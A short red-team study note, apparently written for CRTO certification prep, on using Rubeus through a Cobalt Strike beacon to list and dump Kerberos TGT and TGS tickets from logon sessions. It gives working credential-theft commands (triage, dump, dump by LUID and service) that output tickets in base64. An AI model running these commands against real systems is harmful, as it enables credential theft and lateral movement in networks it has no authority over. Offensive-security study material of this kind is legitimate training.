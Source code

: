 
Tool: [Rubeus](https://github.com/GhostPack/Rubeus)

Uses legitimate Windows APIs, reducing the noise.

- Its `triage` command will list all the Kerberos tickets in your current logon session and if elevated, from all logon sessions on the machine.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage`

![[kerberos_sessions.png]]

LUID (local unique identifier) is the logon session identifier. 
krbtgt - [[Ticket Granting Ticket (TGT)]] tickets
All others are [[Ticket Granting Service (TGS)]] tickets

- Once listed, you can extract them all or specific tickets from a session

All tickets
`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump`

---
A specific ticket
`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt`

This will output the ticket(s) in base64 encoded format.

  You may also add the `/nowrap` option which will format the base64 encoding onto a single line - this makes copy & pasting much easier.




### ⚠ Opsec




### Properties
---
📆 created   {{18-02-2024}} 19:11
🏷️ tags: #redteam #crto 

---

